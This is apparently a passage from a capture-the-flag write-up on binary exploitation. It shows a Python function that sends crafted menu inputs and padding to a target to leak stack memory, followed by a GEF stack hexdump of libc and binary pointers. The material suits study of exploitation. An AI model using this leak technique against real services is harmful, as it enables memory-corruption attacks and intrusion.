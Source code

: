 My script reads from an offset to the END of `local_buffer`.

> This strategy only allows us to read decreasing offsets as we are writting all the bytes up to the last `offset` ones every time

```python
def leak_addr(offset):
    sz = 240 - offset
    TARGET.recvuntil(PROMPT, timeout=1)
    TARGET.sendline(b"i")

    TARGET.recvuntil(PROMPT, timeout=1)
    TARGET.sendline(b"A" * sz)

    TARGET.recvuntil(PROMPT, timeout=1)
    TARGET.sendline(b"g")

    TARGET.recvuntil(PROMPT, timeout=1)
    TARGET.sendline(b"l")

    TARGET.recvuntil(PROMPT, timeout=1)
    TARGET.sendline(b"o")

    l = TARGET.recvuntil(PROMPT, timeout=1)

    print(l)
    l = l[sz + 1 : -len(PROMPT)]
    return l
```

To know what to leak, in gdb we can do `br run` then `ni 20` (to jump over some of the function prefix).

We can then print the stack to understand what we expect to find in `local_buffer` with `hexdump qword --size 0x40 $rsp` (I'm using GEF):

```
0x00007fffffffcac0│+0x0000   0x0000000000000000
0x00007fffffffcac8│+0x0008   0x0000000000000000
0x00007fffffffcad0│+0x0010   0x0000000000000000
0x00007fffffffcad8│+0x0018   0x0000000000000000
0x00007fffffffcae0│+0x0020   0x0000000000000000
0x00007fffffffcae8│+0x0028   0x0000000000000000
0x00007fffffffcaf0│+0x0030   0x0000000000000000
0x00007fffffffcaf8│+0x0038   0x0000000000000001
0x00007fffffffcb00│+0x0040   0x000000000000000a
0x00007fffffffcb08│+0x0048   0x000055555555601b
0x00007fffffffcb10│+0x0050   0x0000555555558080
0x00007fffffffcb18│+0x0058   0x00007ffff7fb15e0
0x00007fffffffcb20│+0x0060   0x00007ffff7ffd020
0x00007fffffffcb28│+0x0068   0x00007ffff7e63fd9
0x00007fffffffcb30│+0x0070   0x00007ffff7fb5760
0x00007fffffffcb38│+0x0078   0x00007ffff7e643e3
0x00007fffffffcb40│+0x0080   0x0000000000000010
0x00007fffffffcb48│+0x0088   0x00007ffff7fb5760
0x00007fffffffcb50│+0x0090   0x000055555555601b
0x00007fffffffcb58│+0x0098   0x00007ffff7e59ada
0x00007fffffffcb60│+0x00a0   0x0000000000000000
0x00007fffffffcb68│+0x00a8   0x0000000000000000
0x00007fffffffcb70│+0x00b0   0x00007fffffffcd18
0x00007fffffffcb78│+0x00b8   0x0000000000000001
0x00007fffffffcb80│+0x00c0   0x0000000000000000
0x00007fffffffcb88│+0x00c8   0x00007fffffffcd28
0x00007fffffffcb90│+0x00d0   0x0000000000000000
0x00007fffffffcb98│+0x00d8   0x0000555555555480
0x00007fffffffcba0│+0x00e0   0x0000000000000001
```